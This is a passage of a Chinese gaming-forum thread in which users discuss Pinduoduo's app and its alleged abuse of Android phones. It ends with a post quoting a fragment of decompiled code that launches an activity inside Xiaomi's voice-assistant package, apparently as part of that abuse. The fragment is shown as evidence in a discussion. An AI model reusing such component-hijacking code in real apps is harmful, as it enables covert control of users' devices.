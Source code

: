 ####  勿徊哉  
##### 93#       发表于 2023-3-28 09:56

昨天好像拼多多开自营店，结果被积怨已久的商家冲爆了。

*****

####  tk553521  
##### 94#       发表于 2023-3-28 09:56

大法手机pdd从未有过弹窗，不知道在不在被黑范围之内<img src="https://static.saraba1st.com/image/smiley/face2017/001.png" referrerpolicy="no-referrer">

—— 来自 Sony XQ-AT72, Android 12上的 [S1Next-鹅版](https://github.com/ykrank/S1-Next/releases) v2.5.4

*****

####  究极学霸  
##### 95#       发表于 2023-3-28 09:58

现在想来，所谓的砍一刀送100也许是个八奇秘笈，用海量的砍一刀诉讼把你其他方向的诉讼都堵住，乖乖等前面的羊毛党开庭吧<img src="https://static.saraba1st.com/image/smiley/face2017/037.png" referrerpolicy="no-referrer">

*****

####  amzonme  
##### 96#       发表于 2023-3-28 10:01

用苹果手机会不会好点

*****

####  amzonme  
##### 97#       发表于 2023-3-28 10:01

用苹果手机会不会好点

*****

####  浊世臭臭泥  
##### 98#         楼主| 发表于 2023-3-28 10:03

<blockquote><a href="httphttps://bbs.saraba1st.com/2b/forum.php?mod=redirect&amp;goto=findpost&amp;pid=60248355&amp;ptid=2126174" target="_blank">pzk 发表于 2023-3-28 09:15</a>

这么不择手段的公司还没被扒出监听，说明真的监听不了呗。</blockquote>
AhriStrategy:利用小米语音助手，执行了一些行为；

Intent intent2 = new Intent();

 intent2.setComponent(new

ComponentName("com.miui.voiceassist","com.tencent.connect.common.AssistActi

vity"));

 intent2.addFlags(-2122297344);
